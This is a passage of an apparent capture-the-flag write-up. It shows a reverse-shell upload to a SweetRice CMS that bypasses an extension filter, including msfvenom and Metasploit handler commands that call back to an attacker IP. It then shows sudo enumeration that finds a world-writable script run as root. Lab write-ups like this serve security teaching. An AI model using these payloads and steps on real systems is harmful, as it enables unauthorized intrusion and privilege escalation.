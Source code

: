 ### 6. Upload Reverse Shell
- Tried uploading PHP reverse shells (`.php`, `.phtml`)—blocked by the CMS.
- Used `.php5` extension, generated with `msfvenom`:
  ```bash
  msfvenom -p php/meterpreter_reverse_tcp LHOST=[ATTACKER IP] LPORT=444 -f raw > shell.php5
  ```
- Example:
  ```bash
  msfvenom -p php/meterpreter_reverse_tcp LHOST=10.2.19.25 LPORT=444 -f raw > shell.php5
  ```
- Set up a Metasploit listener:
  ```bash
  msfconsole
  use exploit/multi/handler
  set PAYLOAD php/meterpreter_reverse_tcp
  set LHOST [ATTACKER IP]
  set LPORT 444
  run
  ```
- Uploaded `shell.php5` via the SweetRice admin panel.
- Visited `http://[VICTIM IP]/content/attachment/shell.php5`—got a Meterpreter session as `www-data`.

### 7. Explore as www-data
- Switched to a shell:
  ```bash
  shell
  ```
- Set terminal:
  ```bash
  export TERM=xterm
  ```
- Checked `sudo` privileges:
  ```bash
  sudo -l
  ```
- Output:
  ```
  User www-data may run the following commands on THM-Chal:
      (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
  ```
- Viewed `backup.pl`:
  ```bash
  cat /home/itguy/backup.pl
  ```
- Content:
  ```perl
  #!/usr/bin/perl
  system("sh", "/etc/copy.sh");
  ```

### 8. Exploit backup.pl
- Checked `/etc/copy.sh`:
  ```bash
  cat /etc/copy.sh
  ```
- Contained backup commands (unspecified, but writable).
- Verified permissions:
  ```bash
  ls -la /etc/copy.sh
  ```
- Output:
  ```
  -rw-r--rwx 1 root root 45 Apr 20 14:58 /etc/copy.sh
  ```
- **Explanation**: The file is world-writable (`rwx` for others), allowing `www-data` to overwrite it.
